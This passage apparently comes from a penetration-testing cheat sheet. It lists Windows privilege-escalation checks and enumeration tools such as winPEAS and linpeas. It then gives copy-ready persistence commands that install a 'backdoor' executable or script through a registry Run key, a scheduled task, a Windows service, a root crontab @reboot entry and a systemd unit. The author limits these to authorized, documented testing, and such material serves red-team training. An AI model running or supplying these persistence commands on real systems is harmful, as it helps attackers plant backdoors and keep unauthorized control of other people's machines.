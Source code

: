 ### Quick Windows checks

```powershell
whoami /priv
whoami /groups
# check service config and writable paths:
sc queryex <svcname>
Get-ChildItem -Path C:\ -Recurse -ErrorAction SilentlyContinue -Force -Include *.config,*.ini
# check UAC level & patch status
```

### Tools & resources

* `winPEAS` / `PowerUp` / `Seatbelt` (Windows)
* `linpeas`, `Linux Exploit Suggester`, `sudo-checks` (Linux)
* After finding a potential vector, use tested PoCs in a lab before using on target.

---

## 5) Persistence (only if allowed & documented)

### Windows examples

* Registry Run key:

```powershell
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v MyApp /d "C:\Windows\Temp\backdoor.exe" /f
```

* Scheduled task:

```powershell
schtasks /Create /SC ONLOGON /TN "Updater" /TR "C:\Windows\Temp\backdoor.exe"
```

* New Windows Service:

```powershell
sc create MySvc binPath= "C:\Windows\Temp\backdoor.exe" start= auto
```

### Linux examples

* Cron job:

```bash
echo "@reboot /usr/bin/python3 /tmp/backdoor.py" >> /etc/crontab
# or user crontab: crontab -l; echo "@reboot /tmp/backdoor.sh" | crontab -
```

* systemd unit file:

```ini
# /etc/systemd/system/mybackdoor.service
[Unit]
Description=My Backdoor
[Service]
ExecStart=/usr/bin/python3 /tmp/backdoor.py
[Install]
WantedBy=multi-user.target
# enable: systemctl enable mybackdoor; systemctl start mybackdoor
```
